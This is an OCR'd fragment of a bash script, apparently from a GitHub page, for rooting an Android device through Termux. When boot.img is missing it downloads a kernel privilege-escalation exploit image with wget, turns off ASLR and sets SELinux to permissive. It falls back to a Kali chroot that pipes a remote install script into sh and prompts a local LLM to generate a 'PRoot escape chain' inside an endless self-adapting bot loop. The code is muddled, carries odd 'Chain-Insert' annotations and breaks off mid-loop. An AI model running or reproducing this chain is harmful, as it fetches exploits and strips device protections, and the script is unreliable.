 ```bash
    # Patch boot (user provides boot.img; adapt if missing) *Chain-Insert: PR #2 Mirror—wget lucyoa exploit img if reject.*
    if [ ! -f /sdcard/boot.img ]; then
        log "warn" "Boot.img missing; fallback to exploit."
        wget https://github.com/lucyoa/kernel-exploits/raw/master/exploits/6.6/aarch64-lpe.img -O /sdcard/boot.img || log "error" "Mirror fail; mutate to chroot."  # PR #2 Chain
        # Brute-force: Disable protections
        echo 0 > /proc/sys/kernel/randomize_va_space  # ASLR off
        setenforce 0  # SELinux permissive (if partial access)
    fi
    # Flash Magisk (via recovery or direct)
    su -c "magisk --install" || { log "error" "Magisk fail; mutate to Kali."; escalate_to_kali; }
fi

escalate_to_kali() {
    # Kali Chroot Setup (nonstop adaptation) *Chain-Insert: PR #2 Ollama—install for bot reflection.*
    pkg install proot-distro -y
    proot-distro install kali
    proot-distro login kali -- bash -c "
        apt update && apt install -y magisk-termux kali-linux-default
        curl -fsSL https://ollama.com/install.sh | sh  # PR #2 LLM for mutation
        ollama run gemma:2b -- 'Reflect: Half-root? Generate PRoot escape chain'
        # Bot Attachment: Living adapt bot
        cat > /root/kali_root_bot.py << 'EOF'
import time, subprocess, os
# Endless loop: Monitor log, adapt via Ollama
while True:
    with open('/sdcard/root_adapt.log', 'r') as f:
